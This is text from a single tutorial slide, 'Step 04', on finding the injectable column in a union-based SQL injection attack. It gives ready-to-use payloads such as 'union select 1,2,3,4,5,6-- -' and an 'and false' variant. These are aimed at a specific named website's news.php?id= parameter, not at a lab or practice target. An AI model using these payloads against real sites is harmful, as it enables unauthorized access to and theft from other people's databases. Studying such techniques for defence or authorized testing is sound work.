

# Step 04: Vulnerable column finding using (union select statement)
http://iagcc.com/news.php?id=58 union select 1,2,3,4,5,6-- -
To make the vulnerable column visible use false condition like (and false, and 0=1) or (before id . , -) etc.
http://iagcc.com/news.php?id=58 and false union select 1,2,3,4,5,6-- -
Define the vulnerable column